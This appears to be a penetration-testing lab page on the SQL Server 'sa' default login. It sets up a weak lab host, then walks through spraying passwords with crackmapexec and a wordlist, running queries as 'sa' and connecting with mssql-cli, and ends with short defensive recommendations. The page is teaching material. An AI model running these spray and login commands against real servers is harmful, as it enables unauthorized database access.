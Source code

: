 ```yaml
---
description: >-
  By default the SA user is NOT enabled. Administrators might enable it during
  the installation and choose a weak password.
---
```


# SQL Server default login

## Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.

2\. Open "Microsoft SQL Server Management Studio"

![](<../../.gitbook/assets/image (32) (1) (1) (1) (1) (1) (1).png>)

3\. Login with the `Administrator` user using Windows Authentication.

4\. Expand the "Security" and "Logins" folders. Right click "sa" and select "Properties". Make sure "Enforce password policy" is unchecked and fill in the password `sa` twice.

![](<../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (2).png>)

## Attacking

### How it works

One of the default users (not enabled by default) for SQL Server is the SA user. Administrators might enable it during the installation and choose a weak password, such as the username.

### Tools

* [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)
* [mssql-cli](https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15)

### Executing the attack

1. Check if the MSSQL server on `WEB01` can be contacted from our Kali machine:

```
crackmapexec mssql 10.0.0.5 -d .
```

![](<../../.gitbook/assets/image (64) (1) (1) (1) (1) (1) (1) (1) (1).png>)

2\. Paste the following passwords in `passwords.txt` to spray with:

```
Password
Password01!
Password1!
Welcome01!
Welcome01
Welcome1!
Welcome1
sa
```

![](<../../.gitbook/assets/image (41) (1) (1).png>)

3\. Run Crackmapexec to connect to the MSSQL service running on `WEB01` and passwordspray the passwords till there is a succesfull login:

```
crackmapexec mssql 10.0.0.5 -u sa -p passwords.txt --local-auth
```

![](<../../.gitbook/assets/image (39) (1) (1) (1) (1) (1) (1) (1).png>)

We got a succesfull login as the `sa` user with the password `sa`.

4\. Run Crackmapexec again with the password sa and use the `-q` flag to try to execute the query `select @@version` to retrieve the MSSQL version.

```
crackmapexec mssql 10.0.0.5 -u sa -p sa --local-auth -q "select @@version;"
```

![](<../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png>)

5\. Connect to the database using mssql-cli.

```
mssql-cli -S 10.0.0.5 -U sa -P sa
```

![](<../../.gitbook/assets/image (4) (1) (1).png>)

Check the executing commands page under SQL Server Attacks to learn to execute cmd commands:

{% content-ref url="../active-directory-attacks/sql-server-attacks/executing-commands.md" %}
[executing-commands.md](../active-directory-attacks/sql-server-attacks/executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations

* Make sure the password policy is enforced for all users on the SQL server.
* Dont use the sa account, this account is well to known and attackers will attempt to brute-force it.

### Detection



## References

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

{% embed url="https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15" %}
